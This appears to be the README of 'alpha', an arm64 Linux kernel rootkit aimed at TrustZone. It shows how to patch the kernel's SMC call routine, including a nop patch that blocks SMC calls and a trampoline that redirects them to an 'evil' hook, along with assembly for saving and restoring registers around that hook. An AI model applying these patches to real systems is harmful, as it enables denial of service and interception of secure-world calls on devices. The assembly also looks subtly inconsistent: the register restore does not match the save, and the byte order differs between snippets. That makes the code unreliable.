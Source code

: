 # alpha
alpha is a simple kernel rootkit (Linux arm64) to attack the TrustZone. He erases the smc_handle function of the kernel to hook SMC Call. It has been tested on a Linux kernel 4.19 with OP-TEE 3.5.0 but should work with any other TrustZone implementation.

### __arm_smccc_smc (arch/arm64/kernel/smccc-call.S)   
   
```   
   smc   #0
   ldr   x4, [sp]
   stp   x0, x1, [x4, #ARM_SMCCC_RES_X0_OFFS]
   stp   x2, x3, [x4, #ARM_SMCCC_RES_X2_OFFS]
   ldr   x4, [sp, #8]
   cbz   x4, 1f /* no quirk structure */
   ldr   x9, [x4, #ARM_SMCCC_QUIRK_ID_OFFS]
   cmp   x9, #ARM_SMCCC_QUIRK_QCOM_A6
   b.ne  1f
   str   x6, [x4, ARM_SMCCC_QUIRK_STATE_OFFS]
   ret
```   
   
### DoS (Denial of Service)   
   
It's the easiest way to avoid SMC call. Replace the first instruction of the function:   
```   
03 00 00 d4     smc   #0x0   
```   

With the following instruction:   
```   
d5 03 20 1f     nop      
```   

### Hook SMC Call

The purpose of this attack is to jump from __arm_smccc_smc to our evil function to filter the SMC call. First step is to jump to our hook function:    
```
   ldr   x8, .+8
   br    x8
   .dword [hook_address]
```

Next, the evil function have to manage the SMC call. We have to re-write the routine that has been erased and put it in our hook function.   
In order to have the ability to do anything inside the evil function and continue to use SMC call, we have to save registers. We add a pre-routine and a post-routine.   
The pre-routine is as follow:
```
   stp   x0, x1, [sp, #-16]!
   stp   x2, x3, [sp, #-16]!
   stp   x4, x5, [sp, #-16]!
   stp   x6, x7, [sp, #-16]!
   stp   x18, x19, [sp, #-16]!
   stp   x20, x21, [sp, #-16]!
   stp   x22, x23, [sp, #-16]!
   stp   x24, x25, [sp, #-16]!
   stp   x26, x27, [sp, #-16]!
   stp   x28, x29, [sp, #-16]!
   str   x30, [sp, #-8]!
```   
And the post-routine:
```
   ldr   x30, [sp], #8
   ldp   x28, x29, [sp], #16
   ldp   x26, x27, [sp], #16
   ldp   x24, x25, [sp], #16
   ldp   x22, x23, [sp], #16
   ldp   x20, x21, [sp], #16
   ldp   x18, x19, [sp], #16
   ldp   x6, x7, [sp], #16
   ldp   x4, x5, [sp], #16
   ldp   x2, x3, [sp], #16
   ldp   x0, x1, [sp], #16
   ldp   x29, x30, [sp], #16
```

### References   

http://infocenter.arm.com/help/topic/com.arm.doc.den0028b/ARM_DEN0028B_SMC_Calling_Convention.pdf   
https://github.com/torvalds/linux/blob/master/include/linux/arm-smccc.h   
https://github.com/torvalds/linux/blob/master/arch/arm64/kernel/smccc-call.S   
